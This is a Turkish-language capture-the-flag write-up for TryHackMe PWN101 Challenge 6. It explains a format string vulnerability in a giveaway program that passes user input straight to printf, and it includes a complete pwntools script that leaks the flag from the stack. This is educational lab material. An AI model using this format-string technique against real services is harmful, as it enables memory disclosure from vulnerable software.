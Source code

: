 # TryHackMe PWN101

## Challenge 6

### Dosya
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Dosyayı açtığımızda bizden çekiliş için isim istemektedir, isim girdiğimizde ise bize teşekkür etmektedir.

Teşekkür kısmında isim printf ile yazdırılmaktadır ancak format string hatası bulunmaktadır. printf fonksiyonunun içine parametre olarak sadece isim girilmiştir.

```c
printf("Enter your THM username to participate in the giveaway: ");
read(0, format, 0x32);
printf("\nThanks ");
printf(format);
```

```
🎉 THM Giveaway 🎉

Enter your THM username to participate in the giveaway: %lX

Thanks 7FFC01D72010
```

### Exploit

Dosya decompile edildiğinde flag'in string olarak yazıldığı görülmektedir. Bu string'in bulunduğu yeri hesaplayıp format string'den yararlanıp flag'i elde edebiliriz.

```bash
$ ./exploit.py remote 10.10.76.209 9006
[+] Opening connection to 10.10.76.209 on port 9006: Done
[*] Sending Payload.
[*] Getting Flag
[+] Flag achieved!: THM{[REDACTED]}
[*] Closed connection to 10.10.76.209 port 9006
```

### Python

```python
#!/bin/env python3

from pwn import *
import argparse

parser = argparse.ArgumentParser(description='TryHackMe PWN101 Challange 6 Exploit')

subparsers = parser.add_subparsers(dest='mode', help='Select mode: remote or local')

remote_parser = subparsers.add_parser('remote', help='Remote mode: Provide IP address and port')
remote_parser.add_argument('ip', help='IP address')
remote_parser.add_argument('port', help='Port number')

local_parser = subparsers.add_parser('local', help='Local mode: Provide file path')
local_parser.add_argument('file', help='File path')

args = parser.parse_args()

mode = args.mode

if mode == 'remote':
    ip = args.ip
    port = args.port
    p = remote(ip, port)
elif mode == 'local':
    file = args.file
    context.binary = binary = ELF(file)
    p = process()
else:
    parser.error('Please select remote or local mode.')
    
p.recv()

log.info("Sending Payload.")
p.sendline(b"%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX")
p.recvuntil(b"Thanks ")
recv_hex = p.recv().strip()

log.info("Getting Flag")
flag = ""
for hx in recv_hex.decode().split('.'):
    flag += bytes.fromhex(hx).decode()[::-1]

log.success("Flag achieved!: " + flag)
```

